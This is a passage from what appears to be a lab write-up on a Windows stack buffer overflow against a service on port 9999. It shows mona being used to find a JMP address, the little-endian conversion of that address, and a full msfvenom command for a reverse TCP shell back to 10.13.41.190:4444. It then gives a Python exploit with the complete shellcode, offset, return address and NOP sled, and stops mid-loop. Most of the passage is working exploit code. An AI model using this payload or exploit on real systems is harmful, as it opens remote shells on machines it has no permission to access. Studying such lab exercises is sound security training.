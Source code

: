 And we are going to get the character on mona like this 

![[jmp.png]]

To get the pointers , we get the bad chars direction but in endian format ,we need to change it from big endian to little 

so we can use this > https://www.save-editor.com/tools/wse_hex.html#littleendian
```hex
from 
0x625014df
to
DF145062
```
And make the changes , we are going to get this 

`   "\xdf\x14\x50\x62"   `

So this we need to add it to our buffer and prepare the payload , in our case with msfvenom 


`msfvenom -p windows/shell_reverse_tcp LHOST=10.13.41.190 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x08\xa0\xa1\x2e\x2f" -f py`

And our final payload.py is going to be like this > 

```python

#!/usr/bin/python 

import sys, socket

ip = '192.168.195.149'
port = 9999

buf =  b""
buf += b"\xdb\xd2\xba\x4e\x2b\x78\x73\xd9\x74\x24\xf4\x5f\x29"
buf += b"\xc9\xb1\x52\x83\xef\xfc\x31\x57\x13\x03\x19\x38\x9a"
buf += b"\x86\x59\xd6\xd8\x69\xa1\x27\xbd\xe0\x44\x16\xfd\x97"
buf += b"\x0d\x09\xcd\xdc\x43\xa6\xa6\xb1\x77\x3d\xca\x1d\x78"
buf += b"\xf6\x61\x78\xb7\x07\xd9\xb8\xd6\x8b\x20\xed\x38\xb5"
buf += b"\xea\xe0\x39\xf2\x17\x08\x6b\xab\x5c\xbf\x9b\xd8\x29"
buf += b"\x7c\x10\x92\xbc\x04\xc5\x63\xbe\x25\x58\xff\x99\xe5"
buf += b"\x5b\x2c\x92\xaf\x43\x31\x9f\x66\xf8\x81\x6b\x79\x28"
buf += b"\xd8\x94\xd6\x15\xd4\x66\x26\x52\xd3\x98\x5d\xaa\x27"
buf += b"\x24\x66\x69\x55\xf2\xe3\x69\xfd\x71\x53\x55\xff\x56"
buf += b"\x02\x1e\xf3\x13\x40\x78\x10\xa5\x85\xf3\x2c\x2e\x28"
buf += b"\xd3\xa4\x74\x0f\xf7\xed\x2f\x2e\xae\x4b\x81\x4f\xb0"
buf += b"\x33\x7e\xea\xbb\xde\x6b\x87\xe6\xb6\x58\xaa\x18\x47"
buf += b"\xf7\xbd\x6b\x75\x58\x16\xe3\x35\x11\xb0\xf4\x3a\x08"
buf += b"\x04\x6a\xc5\xb3\x75\xa3\x02\xe7\x25\xdb\xa3\x88\xad"
buf += b"\x1b\x4b\x5d\x61\x4b\xe3\x0e\xc2\x3b\x43\xff\xaa\x51"
buf += b"\x4c\x20\xca\x5a\x86\x49\x61\xa1\x41\xb6\xde\x6a\x13"
buf += b"\x5e\x1d\x6c\x15\x24\xa8\x8a\x7f\x4a\xfd\x05\xe8\xf3"
buf += b"\xa4\xdd\x89\xfc\x72\x98\x8a\x77\x71\x5d\x44\x70\xfc"
buf += b"\x4d\x31\x70\x4b\x2f\x94\x8f\x61\x47\x7a\x1d\xee\x97"
buf += b"\xf5\x3e\xb9\xc0\x52\xf0\xb0\x84\x4e\xab\x6a\xba\x92"
buf += b"\x2d\x54\x7e\x49\x8e\x5b\x7f\x1c\xaa\x7f\x6f\xd8\x33"
buf += b"\xc4\xdb\xb4\x65\x92\xb5\x72\xdc\x54\x6f\x2d\xb3\x3e"
buf += b"\xe7\xa8\xff\x80\x71\xb5\xd5\x76\x9d\x04\x80\xce\xa2"
buf += b"\xa9\x44\xc7\xdb\xd7\xf4\x28\x36\x5c\x14\xcb\x92\xa9"
buf += b"\xbd\x52\x77\x10\xa0\x64\xa2\x57\xdd\xe6\x46\x28\x1a"
buf += b"\xf6\x23\x2d\x66\xb0\xd8\x5f\xf7\x55\xde\xcc\xf8\x7f"

buffer = ["A"*2012 + "\xdf\x14\x50\x62"+"\x90"*20+buf ]

try:
    for string in buffer:
```